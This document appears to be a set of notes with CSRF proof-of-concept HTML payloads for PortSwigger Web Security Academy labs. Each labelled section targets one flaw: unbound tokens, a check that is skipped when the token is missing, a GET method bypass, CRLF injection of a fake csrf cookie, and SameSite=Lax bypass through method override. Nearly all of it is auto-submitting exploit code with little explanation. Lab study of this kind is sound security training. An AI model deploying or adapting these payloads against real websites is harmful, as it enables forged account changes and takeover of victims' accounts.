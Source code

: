 CSRF TOKEN NOT TIED TO SINGLE SESSION COOKIE
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@gothacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN IS VALIDATED ONLY IF PRESENT, IF OMITTED THERE IS NO CONTROL
```html
<html>
    <body>
        <form action="https://0ab000a5048fb98c8049676b00d00054.web-security-academy.net/my-account/change-email" method="POST">
        <input required type="email" name="email" value="victim@yougothacked">
        <button type="submit">Update email</button>
    <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN CONTROL IS IMPLEMENTED ONLY ON POST REQUEST, SWITCHING TO GET METHOD AND STRIPPING THE CSRF PARAMETER FROM THE URL DOES BYPASS THE CONTROL
```html
<html>
    <body>
        <img src="https://0a68008a048967758029fd920081006d.web-security-academy.net/my-account/change-email?email=victim%40gothacked" onerror=alert(1)>
    </body>
</html>
```

CSRF TOKEN CONTROL DUPLICATED IN A COOKIE AND SOME USER INPUT IS REFLECTED IN THE SET-COOKIE HEADER
```html
<html>
    <body>
        <img src="URL/?search=test%0D%0ASet-Cookie%3A%20csrf%3Dfakecsrf%3B%20SameSite%3DNone" onerror=document.forms[0].submit()>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@yougothacked">
            <input required type="hidden" name="csrf" value="fakecsrf">
            <button type="submit">Update Email</button>
        </form>
    </body>
</html>
```


BYPASS SAMESITE=LAX (NO CSRF TOKEN PRESENT) USING METHOD OVERRIDE
```html
<html>
    <body>
        <form action="https://URL/my-account/change-email" method="POST">
            <input type="hidden" name="httpMethod" value="GET">
            <input required type="email" name="email" value="yougot@hacked">
            <button type="submit">Submit</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

PORTSWIGGER VERSION
```html
<script>
    document.location="URL/my-account/change-email?email=youjustgot%40hacked&_method=POST"
</script>
```
Source: [sidechannel.blog](https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/)